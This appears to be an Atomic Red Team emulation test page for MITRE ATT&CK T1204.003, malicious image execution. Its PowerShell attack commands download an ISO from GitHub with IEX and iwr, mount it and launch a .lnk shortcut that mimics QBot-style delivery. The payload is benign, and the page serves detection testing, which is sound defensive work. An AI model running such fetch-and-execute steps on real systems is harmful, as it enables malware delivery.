 ```yaml
---
tags: [T1204_003, atomic_test]
filename: "[[T1204.003|T1204.003 - User Execution: Malicious Image]]"
---
```


# T1204.003 - User Execution: Malicious Image
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/003)
<blockquote>Adversaries may rely on a user running a malicious image to facilitate execution. Amazon Web Services (AWS) Amazon Machine Images (AMIs), Google Cloud Platform (GCP) Images, and Azure Images as well as popular container runtimes such as Docker can be backdoored. Backdoored images may be uploaded to a public repository via [Upload Malware](https://attack.mitre.org/techniques/T1608/001), and users may then download and deploy an instance or container from the image without realizing the image is malicious, thus bypassing techniques that specifically achieve Initial Access. This can lead to the execution of malicious code, such as code that executes cryptocurrency mining, in the instance or container.(Citation: Summit Route Malicious AMIs)

Adversaries may also name images a certain way to increase the chance of users mistakenly deploying an instance or container from the image (ex: [Match Legitimate Name or Location](https://attack.mitre.org/techniques/T1036/005)).(Citation: Aqua Security Cloud Native Threat Report June 2021)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Malicious Execution from Mounted ISO Image](#atomic-test-1---malicious-execution-from-mounted-iso-image)


<br/>

## Atomic Test #1 - Malicious Execution from Mounted ISO Image
Adversaries may rely on a user running a malicious image to facilitate execution

**Supported Platforms:** Windows


**auto_generated_guid:** e9795c8d-42aa-4ed4-ad80-551ed793d006






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.003/src/qbot-test.iso" -OutFile "$env:TEMP\qbot-test.iso")
Mount-DiskImage -ImagePath "$env:TEMP\qbot-test.iso"
$mountedpath = (Get-DiskImage -ImagePath "$env:TEMP\qbot-test.iso" | Get-Volume).DriveLetter
$finalpath = $mountedpath + ":\"
cd $finalpath
.\calc.exe.lnk
```

#### Cleanup Commands:
```powershell
start-sleep -s 5
stop-process -Name "Calculatorapp" -Force 
dismount-diskimage -ImagePath "$env:TEMP\qbot-test.iso"
```





<br/>
